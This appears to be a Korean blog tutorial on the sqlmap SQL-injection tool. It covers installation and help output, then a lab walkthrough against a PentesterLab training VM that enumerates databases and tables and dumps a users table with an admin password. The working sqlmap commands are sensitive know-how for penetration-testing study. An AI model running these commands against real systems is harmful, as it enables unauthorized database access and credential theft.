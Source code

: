 ```yaml
---
title: "SQLMap 사용법"
tags: [database, sqlmap]
author: eli_ez3r
key: 20191025
modify_date: 2019-10-25
article_header:
  type: cover
  image:
    src:
---
```


## 0x00. 개요

 **[sqlmap]( http://sqlmap.org/ )(automatic SQL injection and database takeover tool)**은 공개 모의침투 도구로 SQL구문삽입(SQL Injection) 취약점을 탐지/진단하고 데이터베이스에 직간접적으로 접근할 수 있는 취약점 분석 도구이다. 

SQL 구문삽입 공격은 DB 구조 파악이 가장 힘든 작업인데, 수작업으로 진행하기에는 매우 많은 시간이 걸린다. `sqlmap`은 DB 구조파악, 테이블 내용 유출 등을 자동화해주기 떄문에 웹취약점에 대한 수동분석 과정에서 상당히 많은 시간을 절약할 수 있게 도와주는 매우 훌륭한 프로그램이다. 

-----



## 0x01. 설치방법

Linux 시스템에서 다음과 같이 간단하게 설치할 수 있다.

```
apt-get install sqlmap -y
```

-----



## 0x02. 사용법

### (1) 도움말

다음 명령어를 통해서 `sqlmap`에 대한 도움말을 볼 수 있다.(보다 자세한 도움말을 보려면 `sqlmap -hh`)

```
sqlmap -h
```

```
root@ubuntu:~# sqlmap -h
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH    SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'
```

-----



## 0x03. 실습

sqlmap 실습을 위해서 [PentesterLab의 From SQL Injection to Shell 훈련장]( https://pentesterlab.com/exercises/from_sqli_to_shell/course )을 대상으로 진행한다.

실제 서버를 공격하여 생기는 책임은 본인에게 있음을 경고합니다..{:.warning} 

 ![Image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025114201321.png){:.border.rounded} 

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025114516313.png){:.border.rounded}



### (1) GET 방식 입력 값 점검

다음 명령어를 이용하여 GET방식의 입력값 점검을 할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1"
```

 ![img](http://eliez3r.synology.me/assets/img/study/db/sqlmap/SNAGHTML38e12cd3.PNG){:.border.rounded}  

OS정보와 Web Application정보, DBMS정보등을 알아오는 것을 알 수 있다.



사전에 DBMS정보를 알고 있는 경우는 다음 명령어를 사용하면 된다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbms=mysql
```



#### 데이터베이스 목록 조회

다음 명령어를 통해 데이터베이스의 목록을 조회할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbs
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122018616.png){:.border.rounded} 



#### 테이블 목록 조회

데이터베이스의 이름을 알아내었으니 해당 데이터베이스의 테이블 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog --tables
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122242193.png){:.border.rounded} 

해당 데이터베이스의 테이블들을 조회한 모습을 볼수 있다.



#### 컬럼 목록 조회

이제 해당 테이블의 컬럼 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --columns
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122542041.png){:.border.rounded} 



#### 테이블 내용 덤프

users테이블의 모든 내용들을 덤프해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --dump
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122738312.png){:.border.rounded} 

user는 `admin` 계정이 존재하고 패스워드는 hash값으로 되어있지만, 해당 해쉬값이 P4ssw0rd 임을 알려준다.

-----



### (2) POST 방식 입력 값 점검

POST방식일 경우 `--data` 옵션을 이용하면된다.

```
sqlmap -u "http://192.168.23.131/admin/index.php" --data "user=USER&password=PASS"
```

